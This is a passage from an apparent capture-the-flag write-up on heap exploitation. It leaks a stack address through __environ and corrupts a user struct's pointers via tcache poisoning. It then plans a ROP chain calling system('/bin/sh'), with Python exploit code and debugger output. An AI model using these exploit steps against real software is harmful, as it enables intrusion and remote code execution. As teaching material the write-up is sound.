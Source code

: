 ```python
STACK_OFFSET = 0x140 
edit_return = stack - STACK_OFFSET
print("`edit` pushed instruction pointer: " + hex(edit_return))
```

#### Final Corruption and ROP Chain

We're almost there—we just need to gain control over the stack and write a ROP chain to it. Let's start with the end in mind: we need to write a ROP chain to the stack and hijack `edit`'s pushed return instruction pointer. We want to leverage control over pointers in `u` and use `edit` to write the chain. What pointer should we use?

It's possible we could one-shot the corruption with a single gadget: a jump to a one-gadget to spawn a shell. But if we don't get lucky with our state entering that gadget, we might need a handful of quadwords with `pop; ret` gadgets to manipulate required registers. Let's play it safe and assume we need five or six quadwords. The `read` and `fgets` calls for `name` and `group`, respectively, only offer us `0x10` bytes of input. This is a pretty significant limitation. Meanwhile, `bio` has a buffer of `0x480` bytes—more than enough for writing a ROP chain to spawn a shell. 

We conclude that we should corrupt `u->bio` so that it points to the destination stack address and assemble a ROP chain while editing `bio`. The ROP chain is fairly simple, something like `pop rdi; pointer to "/bin/sh"; system` to call `system("/bin/sh");`. 

So we have a target address that we want in `u->bio`, but how do we get it there? We're in a bit of a predicament as `u->name` now has the address of `__environ`, which is not a valid heap allocation. If we try to `delete` the user and re-poison tcache, glibc will check this `__environ` address and realize it does not look like a valid heap allocation. Furthermore, none of our pointers currently point to `u`—we lost the previously held control over manipulating its data. This is not ideal.

There is an easy solution. In order to keep control of `u`, we can change the value that we assign to `u->group`. Remember that we assigned `u->group = &group` to make sure it was writable memory and avoid a crash; there was no other point in overwriting that address. Instead, we want  `u->group = &u->bio` so that we can change `u->bio`'s address after the leak. We won't know the desired address at the point of our `new` call, so we must wait until after the `print` call (stack leak) to perform the overwrite. Also, we want to avoid a crash like we previously experienced when `u->group` was some non-accessible address. Let's temporarily assign `bio` to the heap buffer it originally occupied, keeping everything in sync.

```python
new(p64(environ) + p64(u + 0x20), p64(bio), 10, 10, b"AAAA")
leak = _print()
stack_leak = leak[leak.find(b"User: ") + len(b"User: "):]
stack_leak = stack_leak[:stack_leak.find(b',')]
stack = u64(stack_leak.ljust(8, b'\x00'))
print("__environ value: " + hex(stack))
edit_return = stack - STACK_OFFSET
print("`edit` pushed instruction pointer: " + hex(edit_return))
```

This updated code still leaks `__environ`, and `u->group` now points to `&u->bio` to maintain control!

```console
gef➤  x/xg &u
0x55de980e1058 <u>:     0x000055de99a482a0
gef➤  x/5 0x000055de99a482a0
0x55de99a482a0: 0x000000000000000a      0x000000000000000a
0x55de99a482b0: 0x00007fa039606258      0x000055de99a482c0 < u->group = &u->bio
0x55de99a482c0: 0x000055de99a482d0      < u->bio
```
